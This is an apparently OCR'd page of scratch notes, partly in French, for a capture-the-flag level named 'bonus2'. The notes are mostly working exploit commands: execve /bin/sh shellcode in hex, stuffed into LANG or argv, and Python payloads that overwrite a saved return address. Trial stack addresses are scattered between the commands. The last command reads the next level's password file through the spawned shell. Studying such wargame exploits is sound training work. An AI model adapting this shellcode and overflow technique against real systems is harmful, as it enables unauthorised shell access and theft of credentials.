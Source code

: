  export LANG=$(printf "fi\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80")
 ./bonus2 $(python -c "print('a'*40)") $(python -c "print('b'*18 + '\xbf\xff\xff\x1b'[::-1] + 'c'*20)")

 export LANG = 0xbffffed1 = '\xbf\xff\xfe\xd1'[::-1] + 0

 0xbffffed1 = "r/games"

 '\xbf\xff\xfe\xd1'[::-1] + 2

 0xbfffff19

 adrss strca0xbffff5c0

 0xbffff5d2


  ./bonus2 $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xf5\xd2'[::-1] + 'c'*20)")


  0xbffff5f2 strcat + 18

export LANG=fi; /home/user/bonus2/bonus2 $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xf5\xf2'[::-1] + 'c'*20)")


0xbffff5f2


term - 5 = 0xbffff921
term + 3 = 0xbffff928


lang= = 0xbfffffda

0xbffffcd0 + 18 = 0xbffffce8
relancer la session pour clear l'env

$(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xfc\xfc'[::-1])") 

0xbffffcd8

$(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xfc\xf2'[::-1])") 



env -i LANG=fi /home/user/bonus2/bonus2 $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xfd\x08'[::-1])") <<< 'cat /home/user/bonus3/.pass'
